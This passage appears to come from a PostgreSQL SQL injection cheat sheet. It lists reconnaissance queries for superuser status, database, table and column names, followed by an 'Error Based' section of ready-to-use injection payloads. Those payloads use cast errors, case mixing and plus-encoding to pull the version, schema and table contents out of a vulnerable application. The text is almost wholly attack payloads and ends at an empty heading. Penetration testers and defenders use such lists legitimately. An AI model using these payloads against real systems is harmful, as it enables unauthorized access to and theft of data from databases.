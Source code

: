 ## PostgreSQL Check if Current User is Superuser

```text
SHOW is_superuser; 
SELECT current_setting('is_superuser');
SELECT usesuper FROM pg_user WHERE usename = CURRENT_USER;
```

## PostgreSQL Database Name

```text
SELECT current_database()
```

## PostgreSQL List Database

```text
SELECT datname FROM pg_database
```

## PostgreSQL List Tables

```text
SELECT table_name FROM information_schema.tables
```

## PostgreSQL List Columns

```text
SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
```

## PostgreSQL Error Based

```text
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```

## PostgreSQL XML helpers
